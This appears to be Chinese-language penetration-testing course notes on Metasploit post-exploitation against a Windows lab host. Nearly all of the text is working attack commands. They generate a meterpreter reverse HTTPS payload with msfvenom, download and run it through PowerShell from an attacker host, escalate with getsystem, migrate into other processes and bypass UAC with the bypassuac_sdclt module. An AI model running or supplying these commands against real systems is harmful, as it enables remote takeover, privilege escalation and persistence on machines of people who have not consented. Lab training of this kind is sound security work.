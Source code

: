 ### 20.3.1 核心后渗透功能

生成payload，上传，运行，获得shell

```armasm
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set LPORT 443
run

nc 192.168.50.223 4444
powershell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
.\met.exe
```

后渗透功能：查看空闲时间、提权、进程迁移、隐藏窗口运行

```armasm
idletime

shell
whoami /priv
有SeImpersonatePrivilege
exit
getuid
getsystem
getuid


ps
migrate 8052
ps
getuid

execute -H -f notepad
migrate 2720
```

### 20.3.2 后渗透模块

bypass UAC

```armasm
getsystem
ps
migrate 8044
getuid
Server username: ITWK01\offsec

shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
Medium  说明有UAC

Ctrl+Z y后台运行shell
bg
search UAC
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 9
set LHOST 192.168.119.4
run

```